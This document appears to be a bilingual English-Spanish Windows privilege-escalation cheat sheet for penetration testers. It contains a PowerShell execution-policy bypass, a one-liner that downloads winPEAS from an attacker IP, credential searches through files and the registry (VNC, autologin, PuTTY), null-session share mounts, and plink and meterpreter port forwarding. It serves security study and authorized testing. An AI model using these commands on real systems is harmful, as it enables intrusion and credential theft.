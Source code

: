 # Automatic tools
## From file
```
c:> powershell.exe -nop -exec bypass
PS C:> ./PowerUp.ps1
PS C:> Invoke-AllChecks
```
## From url
```
c:> powershell.exe -nop -exec bypass
PS c:> Import-MOdule ./PowerUp.ps1
PS c:> Invoke-AllChecks
```
# 2. Winpeas
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.14.6/winPEAS64.exe','C:\users\Administrator\Documents\wp.exe')"

c:\users\kosts\Desktop> .\wp.exe
```


# Manual info gathering
## Operating System
```
system info
wmic qfe
```
# Environment variables
```
set
Get-ChildItem Env: | ft Key,Value
```
# Drives
```
net use
wmic logicaldisk get caption, description, providername
wmic logicaldisk get name
wmic logicaldisk get caption
diskpart
list volume
```
```
Get-PSDrive | where {$_.Provider -like "Microsoft.PowerShell.Core\FileSystem"}| ft Name,Root

get-psdrive -psprovider filesystem
```
# Mount/map
```
net use \\IP address\IPC$ "" /u:""
net use \\192.168.1.101\IPC$ "" /u:""
```
# Users
## Whoami
```
whoami /priv
echo %USERNAME%
$env:UserName
```
# Clear text passwords
## Search for them 
```
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini

#Find all those strings in config files.
dir /s *pass* == *cred* == *vnc* == *.config*

# Find all passwords in all files.
findstr /spin "password" *.*
findstr /spin "password" *.*
```
## In Files
These are common files to find them in. They might be base64-encoded. So look out for that.
```
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini
```
## In registry
```
# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
## Service only avaible from inside
A veces, hay servicios a los que solo se puede acceder desde dentro de la red. Por ejemplo, es posible que no se pueda acceder a un servidor MySQL desde el exterior, por razones de seguridad. También es común tener diferentes aplicaciones de administración a las que solo se puede acceder desde dentro de la red/máquina. Como una interfaz de impresora, o algo así. Estos servicios pueden ser más vulnerables ya que no deben verse desde el exterior.
```
netstat -ano
```
Ejemplo de salida:
```
Proto  Local address      Remote address     State        User  Inode  PID/Program name
    -----  -------------      --------------     -----        ----  -----  ----------------
    tcp    0.0.0.0:21         0.0.0.0:*          LISTEN       0     0      -
    tcp    0.0.0.0:5900       0.0.0.0:*          LISTEN       0     0      -
    tcp    0.0.0.0:6532       0.0.0.0:*          LISTEN       0     0      -
    tcp    192.168.1.9:139    0.0.0.0:*          LISTEN       0     0      -
    tcp    192.168.1.9:139    192.168.1.9:32874  TIME_WAIT    0     0      -
    tcp    192.168.1.9:445    192.168.1.9:40648  ESTABLISHED  0     0      -
    tcp    192.168.1.9:1166   192.168.1.9:139    TIME_WAIT    0     0      -
    tcp    192.168.1.9:27900  0.0.0.0:*          LISTEN       0     0      -
    tcp    127.0.0.1:445      127.0.0.1:1159     ESTABLISHED  0     0      -
    tcp    127.0.0.1:27900    0.0.0.0:*          LISTEN       0     0      -
    udp    0.0.0.0:135        0.0.0.0:*                       0     0      -
    udp    192.168.1.9:500    0.0.0.0:*                       0     0      -
```
Busque LISTEN/LISTEN. Compare eso con el escaneo que hizo desde el exterior.
¿Contiene algún puerto que no sea accesible desde el exterior?

Si ese es el caso, tal vez puedas hacer un reenvío remoto para acceder a él. 
```
# Reenvío de puerto utilizando plink
plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080

#Reenvío de puerto utilixando meterpreter
portfwd add -l <attacker port> -p <victim port> -r <victim ip>
portfwd add -l 3306 -p 3306 -r 192.168.1.101
```
Entonces, ¿cómo de debería de interpretar la salida del netstat?

**Dirección local 0.0.0.0**

La dirección local 0.0.0.0 significa que el servicio está escuchando en todas las interfaces. Esto significa que puede recibir una conexión desde la tarjeta de red, desde la interfaz loopback o cualquier otra interfaz. Esto significa que cualquiera puede conectarse a él.

**Dirección local 127.0.0.1**

La dirección local 127.0.0.1 significa que el servicio solo está escuchando la conexión desde su PC. No de Internet ni de ningún otro lugar. ¡Esto es interesante para nosotros!

**Dirección local 192.168.1.9**

La dirección local 192.168.1.9 significa que el servicio solo escucha las conexiones de la red local. Entonces, alguien de la red local puede conectarse, pero no alguien de Internet. ¡Esto también es interesante para nosotros! 

